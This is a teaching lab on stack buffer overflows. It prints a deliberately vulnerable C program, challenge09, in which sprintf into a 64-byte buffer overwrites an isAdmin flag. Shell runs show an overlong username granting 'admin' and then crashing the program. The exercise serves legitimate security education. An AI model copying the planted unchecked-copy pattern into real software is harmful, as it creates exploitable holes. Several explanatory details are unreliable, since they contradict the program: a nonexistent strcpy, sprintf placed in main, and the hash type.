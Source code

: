 # Simple Buffer overflow

## Intro

We will perform a simple buffer overflow on a binary. This overflow
will change the function flow, which enables us to gain "admin" privileges.


## Goal

* Understand C arrays by misusing them
* Get comfortable with gdb
* Deeper understanding of the stack


## Vulnerable program

We have the following program:

challenge09.c:
```c
#include <stdio.h>
#include <stdlib.h>
#include <crypt.h>
#include <string.h>

/* hash of: "ourteacheristehbest" */
const char *adminHash = "$6$saaaaalty$cjw9qyAKmchl7kQMJxE5c1mHN0cXxfQNjs4EhcyULLndQR1wXslGCaZrJj5xRRBeflfvmpoIVv6Vs7ZOQwhcx.";


int checkPassword(char *password) {
    char *hash;

    /* $6$ is SHA256 */
    hash = crypt(password, "$6$saaaaalty");

    if (strcmp(hash, adminHash) == 0) {
        return 1;
    } else {
        return 0;
    }
}


void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[64]; // should be enough for all usernames

    // Check if user has admin privileges
    isAdmin = checkPassword(password);

    // create internal username
    sprintf(name, "%s-%s", "cmd", username);

    if(isAdmin > 0) {
        printf("Hello %s.\nYou are admin!\nisAdmin: 0x%x\n", name, isAdmin);
    } else {
        printf("Hello %s.\nYou are not admin.\nisAdmin: 0x%x\n", name, isAdmin);
    }
}


int main(int argc, char **argv) {
    if (argc != 3) {
        printf("Call: %s <name> <password>\n", argv[0]);
        exit(0);
    }

    handleData(argv[1], argv[2]);
}
```

You can compile it by calling `make` in the folder `~/challenges/challenge09`


## Vulnerability

The vulnerability lies here:

```
void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[64]; // should be enough for all usernames
	[...]
	strcpy(firstname, username);
	[...]
}


int main(int argc, char **argv) {
	[...]
    sprintf(name, "%s-%s", "cmd", username);
}
```

The second argument of the program is copied into a stack buffer `name` of 64 byte size.
After this buffer `name`, an important variable called `isAdmin` is located.


## Normal behaviour

Lets execute the program with normal length string, and with a wrong password:

```
root@hlUbuntu32aslr:~/challenges/challenge09# ./challenge09 sheldon test
Hello cmd-sheldon.
You are not admin.
isAdmin: 0x0
```

The password "test" seems to be not correct, as the program tells us "You are not admin".


Lets execute it with the correct password `ourteacheristehbest`:
```
root@hlUbuntu32aslr:~/challenges/challenge09# ./challenge09 sheldon ourteacheristehbest
Hello cmd-sheldon.
You are admin!
isAdmin: 0x1
```

With the correct password, a message will be printed indicating that the user "cmd-sheldon"
has admin privileges.

## Abnormal behaviour - overflow

What happens when you insert a string which is longer than 64 bytes? Lets try it.
We can use python to print 70 characters:

```
root@hlUbuntu32aslr:~/challenges/challenge09# ./challenge09 `python -c 'print "A"*70'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
You are admin!
isAdmin: 0x41414141
```

## Abnormal behaviour - more overflow

What if we even add some more characters? Lets say 100.

```
root@hlUbuntu32aslr:~/challenges/challenge09# ./challenge09 `python -c 'print "A"*100'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
You are admin!
isAdmin: 0x41414141
Segmentation fault (core dumped)
```


## Questions

* What is happening here? Why Are we "admin" if we use a username which is 70 bytes long?
* Why does it crash, if we use a username which is 100 bytes long?

